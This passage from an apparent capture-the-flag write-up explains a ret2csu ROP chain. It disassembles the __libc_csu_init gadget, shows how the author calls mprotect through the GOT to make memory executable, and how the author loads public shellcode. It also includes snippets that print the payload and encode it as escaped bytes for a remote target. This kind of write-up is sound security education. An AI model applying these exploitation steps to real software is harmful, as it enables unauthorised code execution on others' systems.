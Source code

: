 ```python
payload += p(0x20000000)

print payload
```

One of the tricky things with the mprotect and read ROP chains is the following. The code at `0x400671`, which I use to set `edx`, looks like this:

```
   0x400671 <__libc_csu_init+65>:   mov    edx,ebp
   0x400673 <__libc_csu_init+67>:   mov    rsi,r14
   0x400676 <__libc_csu_init+70>:   mov    edi,r15d
   0x400679 <__libc_csu_init+73>:   call   QWORD PTR [r12+rbx*8]
   0x40067d <__libc_csu_init+77>:   add    rbx,0x1
   0x400681 <__libc_csu_init+81>:   cmp    rbx,rbp  
   0x400684 <__libc_csu_init+84>:   jne    0x400670 <__libc_csu_init+64>
   0x400686 <__libc_csu_init+86>:   add    rsp,0x8
   0x40068a <__libc_csu_init+90>:   pop    rbx
   0x40068b <__libc_csu_init+91>:   pop    rbp
   0x40068c <__libc_csu_init+92>:   pop    r12
   0x40068e <__libc_csu_init+94>:   pop    r13
   0x400690 <__libc_csu_init+96>:   pop    r14
   0x400692 <__libc_csu_init+98>:   pop    r15
   0x400694 <__libc_csu_init+100>:  ret    
```

First `ebp` is copied to `edx`. Then `rsi` and `edi` are set. Then we call the QWORD pointer at a memory address referenced by `esi` and `ebx`. I chose to `esi` and `ebx` such that they point to the got pointer of mprotect. 

The problem arises after returning from the mprotect call:

```bash
   0x40067d <__libc_csu_init+77>:   add    rbx,0x1
   0x400681 <__libc_csu_init+81>:   cmp    rbx,rbp
   0x400684 <__libc_csu_init+84>:   jne    0x400670 <__libc_csu_init+64>
```

So I needed to make sure that `rbx` and `rbp` were equal, otherwise the code jumps away and I inevitably got a crash. I solved that problem by setting `rbx` to `rbp-1`. Only thing left was to adjust `esi` and away we go! With the problem of setting `edx` out of the way, I could call mprotect to set `0x20000000` to rwx and read in the shellcode. This needed to be run from the shell that I obtained from exploiting the first binary. 

I sprinkled in some [shellcode magic](http://www.shell-storm.org/shellcode/files/shellcode-878.php) and was able to exploit the binary locally!

Remotely, I ran into a problem: I could not make files on the remote system, nor was python installed. I rewrote the exploit to dump the shellcode as printable bytes:


```python
shellcode = payload.encode('hex')

output = ""

for i in range(len(shellcode)/2):
    output += "\\x" +shellcode[i*2:i*2+2]

print output
```
